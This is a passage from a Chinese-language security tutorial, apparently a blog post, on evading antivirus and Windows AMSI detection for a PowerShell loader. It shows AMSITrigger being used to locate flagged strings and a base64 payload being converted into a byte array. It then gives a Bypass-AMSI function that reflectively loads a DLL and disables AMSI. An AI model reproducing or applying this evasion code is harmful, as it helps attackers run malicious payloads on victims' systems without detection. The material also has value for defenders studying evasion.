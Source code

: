 落地就被杀

[![](assets/1709530518-36874b11c16163a1acbfe3bcd75a3c3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102124-bbbcdb9c-d904-1.png)

接下来我们用[https://github.com/RythmStick/AMSITrigger来进行定位哪些内容被查杀。](https://github.com/RythmStick/AMSITrigger%E6%9D%A5%E8%BF%9B%E8%A1%8C%E5%AE%9A%E4%BD%8D%E5%93%AA%E4%BA%9B%E5%86%85%E5%AE%B9%E8%A2%AB%E6%9F%A5%E6%9D%80%E3%80%82)

这里我放到本地进行检测ps1文件的话一直被杀，所以我放到了云服务器上使用-u参数进行检测。

[![](assets/1709530518-c989bd9ecd3006e8fc130037fc719b68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102136-c2b2594a-d904-1.png)

由于base64编码后的内容也被杀了，我们直接base64编码转换成byte数组。

```plain
$string = ''
 $a = [System.Convert]::FromBase64String('你的base64编码')
 $a | foreach {$string = $string + $_.ToString()+','}
 $string
```

然后修改我们的加载脚本，加载数组

```plain
function Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([byte[]]@(这里是上面得到的byte数组)) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable();
}
```
